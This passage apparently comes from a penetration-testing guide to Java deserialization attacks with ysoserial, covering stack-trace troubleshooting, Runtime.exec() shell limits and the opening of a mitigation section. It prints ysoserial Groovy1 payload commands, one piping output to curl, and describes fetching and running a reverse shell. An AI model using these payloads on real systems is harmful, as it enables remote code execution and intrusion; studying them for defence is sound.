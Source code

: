 ## 5.3 Filter status REJECTED

Message "filter status REJECTED" present in the stack trace means that application employs serialization filtering, which in turn means that it can be hardened. Serialization filters are one of recommended ways to deal with unsafe deserialization, and they restrict which types of data can be instantiated during deserialization and which cannot.

## 5.4 java.io.IOException: Cannot run program "xyz"

This means that your payload is working but the program to be executed was not found. This can be due to missing binary or OS mismatch (e.g. you try to run notepad.exe on Linux)

Also, there are two more popular issues not related to stack traces:

## 5.5 Shell commands not working

When constructing a command to be executed by ysoserial's payload on Linux, you need to be aware that piping and output redirectors will not work. Also, if there are spaces in arguments to main commands arguments (like `sh -c "python -c \\"import pty…\\""`)

This is because the final RCE sink, Java's `Runetime.exec()` function, is not executed by bash itself, so typical bash features won't be available. [There's a detailed explanation by CodeWhiteSec if you want to understand, why](https://codewhitesec.blogspot.com/2015/03/sh-or-getting-shell-environment-from.html). If you want to execute a chained command using ysoserial, use

```sh
java -jar ysoserial.jar Groovy1 'sh -c $@|sh . echo [now you can chain commands and use spaces in arguments here]'
```

e.g.

```sh
java -jar ysoserial.jar Groovy1 'sh -c $@|sh . echo id | curl http://localhost:1234'
```

Of course, it's not a must and if you have already achieved a single command execution, you can also do the same thing by executing several commands like download reverse shell with curl from your machine, then `chmod +x` the reverse shell and then execute it to connect back to you.

## 5.6 Anticipating Java version without any evidence

It is likely that Java version on target machine is up to date. Also, even if it's not latest version, the JEP290 patch which targets serialization works also with older versions (at least JDK 1.7u21 or newer). But keep in mind, that many Java applications are often a large appliances that have many dependencies. There is high likelihood of not updating them by their owners as they are afraid of breaking them. If an application is a virtual appliance (shipped with underlying OS), then there is a likelihood that the Java version is still the same as when it was released.

# 6. 应对策略

First and most important: do not deserialize arbitrary data. If you are already doing it in your application, you can do the following
